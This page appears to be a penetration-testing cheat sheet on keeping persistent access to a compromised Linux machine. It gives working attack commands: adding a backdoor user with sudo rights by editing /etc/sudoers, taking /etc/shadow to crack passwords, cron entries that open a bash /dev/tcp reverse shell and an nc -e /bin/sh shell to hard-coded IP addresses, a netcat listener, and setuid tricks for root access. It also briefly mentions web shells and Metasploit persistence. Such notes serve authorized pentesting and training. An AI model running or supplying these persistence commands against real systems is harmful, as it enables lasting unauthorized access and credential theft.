# Persistence



So if you manage to compromise a system you need to make sure that you do not lose the shell. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

### Create a new user <a id="create-a-new-user"></a>

The most obvious, but not so subtle way is to just create a new user \(if you are root, or someone with that privilege\) .

```text
adduser pelle
adduser pelle sudo
```

Now if the machine has `ssh` you will be able to ssh into the machine.

On some machines, older Linux I think, you have to do

```text
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

### Crack the password of existing user <a id="crack-the-password-of-existing-user"></a>

Get the `/etc/shadow` file and crack the passwords. This is of course only persistent until the user decides to change his/her password. So not so good.

### SSH key <a id="ssh-key"></a>

Add key to existing ssh-account.

### Cronjob NC <a id="cronjob-nc"></a>

Create cronjob that connects to your machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

Here is how you check if cronjob is active

```text
service crond status
pgrep cron
```

If it is not started you can start it like this

```text
service crond status
/etc/init.d/cron start
```

```text
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

```text
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```

Listener

```text
nc -lvp 5556
```

Sometimes you have to set the user

```text
crontab -e
*/10 * * * * pelle /path/to/binary
```

More here: [http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html](http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html)

### Metasploit persistence module <a id="metasploit-persistence-module"></a>

Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

[https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/](https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/)

If you have a meterpreter shell you can easily just run `persistence`.

### Backdoor in webserver <a id="backdoor-in-webserver"></a>

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

### Admin account to CMS <a id="admin-account-to-cms"></a>

Add admin account to CMS.

### Mysql-backdoor <a id="mysql-backdoor"></a>

Mysql backdoor

### Hide backdoor in bootblock <a id="hide-backdoor-in-bootblock"></a>

### Nmap <a id="nmap"></a>

If the machine has nmap installed:

[https://gist.github.com/dergachev/7916152](https://gist.github.com/dergachev/7916152)

### Setuid on text-editor <a id="setuid-on-text-editor"></a>

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor.

With `vi` it is extremely easy. You just run `:shell`, and it gives you a shell.

```text
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
```

